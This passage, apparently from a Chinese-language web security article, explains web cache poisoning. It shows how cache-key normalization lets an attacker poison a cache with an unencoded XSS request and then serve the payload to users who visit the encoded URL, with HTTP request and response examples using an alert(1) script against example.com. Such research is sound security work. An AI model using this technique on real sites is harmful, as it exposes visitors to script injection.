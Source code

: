 这样一来，firefox的更新检查就被禁用了！



## Cache神奇的技巧

我们已经看了很多利用方法了，但是还不够，cache投毒还有其他有意思的操作，例如激活某些曾经无论如何也不可能触发的`click here to get pwned`类型的漏洞

### <a class="reference-link" name="%E7%BC%96%E7%A0%81-XSS"></a>编码-XSS

你也许遇到过下面这种xss,在burp repeater中，这看似就是一个xss:

```
GET /?x="/&gt;&lt;script&gt;alert(1)&lt;/script&gt; HTTP/1.1
Host: example.com

HTTP/1.1 200 OK
...
&lt;a href="/?x="/&gt;&lt;script&gt;alert(1)&lt;/script&gt;

```

但是当你在浏览器中复现时，却发现怎么也复现不了（当然，除了IE),这是因为浏览器都会对特殊的字符进行url编码，并且，服务端不会解码他们

上面的请求，在浏览器中变成了这样：

```
GET /?x=%22/%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: example.com

HTTP/1.1 200 OK
...
&lt;a href="/?x=%22/%3E%3Cscript%3Ealert(1)%3C/script%3E

```

这个问题曾经只发生在path中的xss,但是如今的浏览器也开始对query中的字符串进行编码了！

幸运的是，因为有cache-key规范化的存在，这两个请求的cache key是一致的，所以，我们只要在burp中先发送一遍第一个请求，然后再引导用户访问第二个请求就可以完成攻击🌶

```
GET /?x=%22/%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: example.com

HTTP/1.1 200 OK
X-Cache: HIT
...
&lt;a href="/?x="/&gt;&lt;script&gt;alert(1)&lt;/script&gt;

```



## Cache key注入

另外一个不可能被利用的场景是那些会影响cache key的漏洞，这种在正常情况下，我们是无法投毒的，例如，下面这个Origin头xss:

